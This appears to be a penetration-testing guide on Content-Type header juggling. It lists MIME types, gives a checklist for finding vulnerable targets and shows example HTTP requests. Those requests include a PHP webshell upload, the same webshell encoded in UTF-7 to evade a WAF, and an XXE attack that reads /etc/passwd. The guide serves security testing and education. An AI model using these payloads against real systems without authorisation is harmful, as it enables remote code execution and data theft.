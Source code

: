 # Content-Type juggling

## Theory

Content-Type juggling exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../file-inclusion/lfi-to-rce/file-upload) or [xxe-injection](#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](#examples)).

> [!TIP]
> The `Content-Type` header is used to indicate the MIME type of the resource.
> 
> * In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
> * In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

> [!WARNING]
> If the [XCTO (X-Content-Type-Options)](../../config/http-headers/index#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../config/http-headers/mime-sniffing). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header not present ?
* Can the `Content-Type` header be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`, [XXE](../xxe-injection/index) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

One should not stick to this list and always try several Content-Type values.

::: details List of the most common Content-Type values

Type application
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```

Type audio
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
Type image
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```

Type multipart
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```

Type text
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```

Type video
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```

Type vnd
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```

:::


### Example attacks

::: details PHP payload upload and RCE
Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```
:::


::: details Bypass a WAF
Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "charset juggling" can be performed.


```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```



```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```

:::


::: details API attack, leading to XXE
In the following request, the application normally sends JSON content (`Content-Type: application/json`).

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.

![Performing Content-Type juggling](assets/CT-JUGGLING-3.png)

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](../xxe-injection/index)).

![Crafting a XXE payload to extract /etc/passwd](assets/CT-JUGGLING-4.png)

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).
:::


## Resources

[https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2)

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)
Content-Type from JSON to XEE

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses)
WAF and protections bypasses

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)
